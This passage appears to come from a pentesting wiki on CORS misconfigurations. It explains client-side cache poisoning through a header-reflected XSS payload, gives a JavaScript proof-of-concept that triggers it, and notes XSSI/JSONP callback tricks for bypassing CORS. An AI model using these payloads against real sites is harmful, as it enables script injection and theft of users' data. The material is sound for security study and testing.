 ### **Client-Side cache poisoning**

You may have occasionally encountered a page with [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) in a custom HTTP header. Say a web page reflects the contents of a custom header without encoding:`GET / HTTP/1.1  
Host: example.com  
X-User-id: <svg/onload=alert(1)>  
  
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: <svg/onload=alert(1)>`

With CORS, we can send any value in the Header. By itself, **that's useless** since the response containing our **injected JavaScript won't be rendered**. However, **if Vary: Origin hasn't been specified** the response **may be stored in the browser's cache and displayed directly when the browser navigates to the associated URL**. I've made a fiddle to [attempt this attack on a URL of your choice](https://jsfiddle.net/3gk8u8wu/3/). Since this attack uses client-side caching, it's actually quite reliable.

```markup
<script>
function gotcha() { location=url }
var req = new XMLHttpRequest();
url = 'https://example.com/'; // beware of mixed content blocking when targeting HTTP sites
req.onload = gotcha;
req.open('get', url, true);
req.setRequestHeader("X-Custom-Header", "<svg/onload=alert(1)>")
req.send();
</script>
```

## Bypass

### XSSI \(Cross-Site Script Inclusion\) / JSONP

XSSI designates a kind of vulnerability which exploits the fact that, when a resource is included using the `script` tag, the SOP doesn’t apply, because scripts have to be able to be included cross-domain. An attacker can thus read everything that was included using the `script` tag.

This is especially interesting when it comes to dynamic JavaScript or JSONP when so-called ambient-authority information like cookies are used for authentication. The cookies are included when requesting a resource from a different host. BurpSuite plugin: [https://github.com/kapytein/jsonp](https://github.com/kapytein/jsonp)

\*\*\*\*[**Read more about the difefrent types of XSSI and how to exploit them here.**](xssi-cross-site-script-inclusion.md)\*\*\*\*

Try to add a **`callback`** **parameter** in the request. Maybe the page was prepared to send the data as JSONP. In that case the page will send back the data with `Content-Type: application/javascript` which will bypass the CORS policy.
